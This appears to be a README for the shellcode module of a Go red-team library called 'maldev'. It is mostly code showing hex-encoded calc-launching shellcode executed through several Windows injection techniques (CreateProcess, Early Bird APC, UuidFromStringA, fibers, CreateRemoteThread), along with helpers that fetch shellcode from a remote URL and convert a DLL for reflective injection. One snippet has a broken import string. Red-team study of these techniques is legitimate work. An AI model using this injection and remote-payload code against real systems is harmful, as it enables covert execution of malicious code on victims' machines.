 # Shellcode Examples

- This package provides useful functions to help red teamers with shellcode injection

\* Have in mind that a lot of errors have not been handled in shellcode injection techniques because they usually throws false errors. However it should work as expected

## All Shellcode Injection Techniques

```go
package main

import (
  "log"
  "encoding/hex"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  calc_shellcode, _ := hex.DecodeString("505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3")

  err := shellcode.CreateProcess(calc_shellcode)
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.EarlyBirdApc(calc_shellcode)
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.UuidFromStringA(calc_shellcode)
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.Fibers(calc_shellcode) // This technique doesn't exit until process ends
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.CreateRemoteThread(calc_shellcode) // This technique doesn't exit until process ends
  if err != nil {
    log.Fatal(err)
  }
}
```

## Get shellcode from file

```go
package main

import (
  "fmt"
  "log"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  shellcode_to_exec, err := shellcode.GetShellcodeFromFile("./shellcode.bin") // func GetShellcodeFromFile(filename string) ([]byte, error) {}
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(shellcode_to_exec)
}
```

## Get shellcode from remote url

```go
package main

import (
  "fmt"
  "log"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  shellcode_to_exec, err := shellcode.GetShellcodeFromUrl("http://192.168.1.6/shellcode.bin") // func GetShellcodeFromUrl(url string) ([]byte, error) {}
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(shellcode_to_exec)
}
```

## Convert DLL to shellcode

- This function is really useful to perform a ***sRDI*** **(shellcode Reflective DLL Injection)**. It autodetects between x86 and x64 architecture

```go
package main

import (
  "fmt
  "log"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  sc, err := shellcode.ConvertDllToShellcode("example.dll", "functionName", "") // func ConvertDllToShellcode(dll_file string, function_name string, args string) ([]byte, error) {}
  if err != nil {
    log.Fatal(err)
  }
  
  fmt.Println(sc)
}
```



